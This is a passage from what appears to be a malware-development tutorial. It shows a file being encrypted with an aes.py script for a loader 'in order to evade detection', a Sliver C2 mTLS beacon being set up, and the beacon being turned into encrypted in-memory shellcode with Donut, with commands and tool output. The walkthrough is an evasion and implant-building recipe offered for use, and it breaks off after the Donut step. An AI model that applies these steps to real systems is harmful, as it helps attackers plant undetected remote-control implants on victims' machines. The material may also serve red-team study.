 Afterwards we can encrypt any file we want with the `aes.py` script.

```console
$ python3 aes.py malicious_file.exe
$ ls
aes.py cipher.bin key.bin malicious_file.exe
```

This will create the files `cipher.bin` and `key.bin` that we can pass to our loader as arguments in order to retrieve the files. In the next section we will have a look at how we can make use of our loaders. We can even do this with any file we want in order to evade detection.

# Sliver in Action
## Shellcode Generation
Moving to our attack machine, we create shellcode for a Sliver C2 beacon. Start Sliver, generate a mTLS beacon targeting your IP and save it to a directory of your choosing. Next we start the mTLS listener.

![Sliver Setup](../assets/images/maldev/sliver-setup.png)

In order to better evade detection, we now convert the executable to a `.bin` file with [Donut](https://github.com/TheWover/donut). Donut is a tool focused on creating binary shellcodes that can be executed in memory. It will generate a shellcode of a .NET binary, which can be executed via the execute-shellcode argument in Sliver. I'll use Donut with the `-b 1` flag to not add AMSI bypass and the `-e 3` flag for encryption.

```console
$ ./donut -b 1 -e 3 -o rev.bin -i /tmp/ESSENTIAL_THEATER.exe 

  [ Donut shellcode generator v1 (built Dec 26 2024 11:15:37)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/tmp/ESSENTIAL_THEATER.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : none
  [ PE Headers    : overwrite
  [ Shellcode     : "rev.bin"
  [ Exit          : Thread
```
